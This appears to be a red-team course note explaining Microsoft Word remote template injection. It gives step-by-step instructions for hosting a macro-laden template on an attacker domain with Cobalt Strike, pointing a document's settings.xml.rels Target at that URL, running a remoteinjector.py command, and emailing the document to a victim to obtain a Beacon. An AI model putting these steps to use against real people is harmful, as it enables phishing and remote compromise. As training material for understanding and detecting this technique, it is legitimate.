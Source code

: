 ```yaml
---
description: 09/02/2025
---
```


# Remote Template Injection

## What is it?

**Microsoft Word includes a feature** that allows users to create documents linked to **templates**. _<mark style="color:red;">These templates can be stored locally or retrieved from a remote server whenever the document is accessed</mark>_.

Exploiting this functionality, attackers can host malicious Word Template files (`.dotm`) on their servers, embedding harmful macros within them. When a victim opens a Word document, it automatically fetches the malicious template from the attacker's server and executes the embedded code, potentially compromising the victim's system.&#x20;

The key benefit of this technique is that the decoy Word document reaching the victim's system appears harmless.&#x20;

This technique is known as _**Living off the Land**_ (**LotL**).&#x20;

## Creating a Malicious Word Template

1. Open Microsoft Word
2. Create a new blank document and insert a desired macro
3. Save to `C:\Payloads` along with the rest of your payloads as a _**Word 97-2003 Template**_ (`*.dot`) file
4. This will now serve as our "malicious remote template"
5. Use Cobalt Strike to host this file at your attacker-controlled domain, in this case, `http://nickelviper.com/template.dot`
6. Now create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Template`, adding any content you want, then save to `C:\Payloads` as a new `.docx` file.&#x20;
7. Browse to the directory in file explorer, right-click, and select `7-zip` > Open archive
8. Navigate to Word -> \_rels, right-click on `settings.xml.rels` and select **Edit**.&#x20;
9. This is just a small little `XML` file. Scroll until you see the `Target` entry:

```
Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"
```

10. You're going to notice that it is currently pointing to the template on our local disk from which the document was created. Simply modify this so that it points to the template URL instead:

```
Target="http://nickelviper.com/template.dot"
```

11. Save those changes and email the document to Bob.
12. Once the file is opened, you'll see a warning about macros again, but allowing them to run will execute the macro in the hosted template, giving us a Beacon.

## Automation?

Check out this [Python tool](https://github.com/JohnWoodman/remoteinjector) that automates this process so that we do not have to modify the XML manually.

```
ubuntu@DESKTOP-3BSK7NO ~> python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
URL Injected and saved to /mnt/c/Payloads/document_new.docx
```

## Observing Web Log Beacon Activity&#x20;

Inside of Cobalt Strike, you can go to _**View -> Web Log**_, and from there you can view any/all activity of your malicious templates.

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
